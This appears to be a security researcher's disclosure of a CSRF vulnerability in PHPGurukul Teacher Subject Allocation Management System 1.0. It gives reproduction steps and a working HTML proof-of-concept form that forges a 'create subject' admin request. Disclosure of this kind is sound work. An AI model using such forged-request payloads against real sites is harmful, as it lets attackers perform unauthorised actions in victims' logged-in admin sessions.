 ## Teacher Subject Allocation Management System V1.0


**Bug Description:**

A Cross Site Request Forgery (CSRF) vulnerability in "/admin/subject.php" endpoint of PHPGurukul Teacher Subject Allocation Management System 1.0  allows attackers to "Create a new Subject" via a crafted html request.

**Steps to Reproduce:** 

```
# Exploit Title: Cross Site Request Forgery (CSRF) vulnerability in PHPGurukul Teacher Subject Allocation Management System
# Date: 07-12-2023
# Exploit Author: dhabaleshwardas
# Vendor Homepage: https://phpgurukul.com/
# Software Link: https://phpgurukul.com/teacher-subject-allocation-system-using-php-and-mysql/
# Version: 1.0
# Tested on: firefox/chrome/brave
# CVE : 
```


To reproduce the attack:

1- Head to the http://localhost/tsas/admin/subject.php endpoint after logging into the admin account.

<img width="960" alt="1" src="https://github.com/dhabaleshwar/Open-Source-Vulnerabilities/assets/132373212/635de38f-0bbe-4cc7-9818-4b0fa9d67bc8">


2- Here you can see that there is only one course added, but now we will add another course using the HTML code we have written.

<img width="450" alt="2" src="https://github.com/dhabaleshwar/Open-Source-Vulnerabilities/assets/132373212/f4467f6e-1813-4027-abba-5ddc12787fd1">


```
<html>
  <!-- CSRF PoC For Add Subject- by Dhabaleshwar Das -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localhost/tsas/admin/subject.php" method="POST">
      <input type="hidden" name="cid" value="1807" />
      <input type="hidden" name="sfname" value="Maths" />
      <input type="hidden" name="ssname" value="MATH" />
      <input type="hidden" name="subcode" value="MA01" />
      <input type="hidden" name="submit" value="" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```

